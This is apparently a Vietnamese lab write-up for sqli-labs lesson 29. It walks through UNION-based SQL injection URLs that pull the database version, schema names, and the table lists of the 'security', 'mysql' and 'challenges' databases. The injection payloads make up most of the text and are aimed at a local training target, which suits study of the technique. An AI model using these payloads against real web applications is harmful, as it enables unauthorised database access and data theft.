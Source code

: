 # Những việc làm được với lesson-29
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-29

![](../images/lesson29/screen.png)

Đề bài yêu cầu nhập id. Và sau khi nhập id thì đề bài đã đưa ra kết quả như sau. đây là user và password. Khi nhập id thì đã có thông tin được truy xuất dữ liệu ra bên ngoài. Rất có thể ta sử dụng được `select` và `union`  

![](../images/lesson29/screen_1.png)

Vì thế nên tôi bắt đầu đi tìm cấu trúc truy vấn của nó. Và sau đó tôi tìm được cấu trúc như sau.

```
192.168.80.225/sqli-labs/Less-29/?id=0'union select 1,version(),database() --+
```

![](../images/lesson29/screen_8.png)

Với cấu trúc như vậy ta có thể làm được rất nhiều thứ với nó 

1. Show tất cả các DB có trong hệ cơ sở dữ liệu 

```
192.168.80.225/sqli-labs/Less-29/?id=1' union select 1,2,group_concat(SCHEMA_NAME) from information_schema.schemata limit 1,1 --+
```

![](../images/lesson29/screen_2.png)

2. Show tất cả các bảng của từng DB một

```
192.168.80.225/sqli-labs/Less-29/?id=1'  union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' limit 1,1 --+
```

![](../images/lesson29/screen_3.png)

3. Show tất cả các bảng của DB mysql

```
192.168.80.225/sqli-labs/Less-29/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='mysql' limit 1,1 --+
```

![](../images/lesson29/screen_4.png)

4. Show tất cả các bảng của DB challenges

```
192.168.80.225/sqli-labs/Less-29/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' limit 1,1 --+
```

![](../images/lesson29/screen_5.png)

Tương tự lần lượt thì ta có thể tìm được hết cấu trúc của DB này 

